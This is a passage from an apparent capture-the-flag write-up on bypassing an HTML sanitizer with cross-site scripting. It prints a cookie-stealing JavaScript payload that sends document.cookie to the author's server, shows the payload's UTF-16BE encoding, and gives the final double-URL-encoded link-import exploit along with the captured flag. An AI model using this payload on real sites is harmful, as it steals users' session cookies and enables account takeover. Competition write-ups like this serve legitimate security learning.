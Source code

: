 {% highlight js %}
=0;location.href='http://myserver/'+document.cookie;
{% endhighlight %}

In UTF-16BE it looked like this:
{% highlight js %}
%00=%000%00;%00l%00o%00c%00a%00t%00i%00o%00n%00.%00h%00r%00e%00f%00=%00'%00h%00t%00t%00p%00:%00/%00/%00m%00y%00s%00e%00r%00v%00e%00r%00/%00'%00+%00d%00o%00c%00u%00m%00e%00n%00t%00.%00c%00o%00o%00k%00i%00e%00;
{% endhighlight %}

Putting it all together results in the final payload:
{% highlight html %}
<link rel=import><link rel=import href="https://sanitizer.web.ctfcompetition.com/sandbox?html=<script charset=%22utf-16b%65%22%20src=/sandbox%3fhtml=%2500=%25000%2500;%2500l%2500o%2500c%2500a%2500t%2500i%2500o%2500n%2500.%2500h%2500r%2500e%2500f%2500=%2500'%2500h%2500t%2500t%2500p%2500:%2500/%2500/%2500m%2500y%2500s%2500e%2500r%2500v%2500e%2500r%2500/%2500'%2500+%2500d%2500o%2500c%2500u%2500m%2500e%2500n%2500t%2500.%2500c%2500o%2500o%2500k%2500i%2500e%2500;></script>">
{% endhighlight %}

Note the double url-encoding. It is necessary since that parameter is in an URL which in turn is a parameter of another URL.

The HTML generated by this payload inside Chrome:

![pwnie]({{ site.url }}/imgs/gctf_xsanitizer_2.png).


My server then received the flag: **CTF{no-problem-this-can-be-fixed-by-adding-a-single-if}**

I don't quite understand its meaning, so I'm not sure this was the intended solution :)


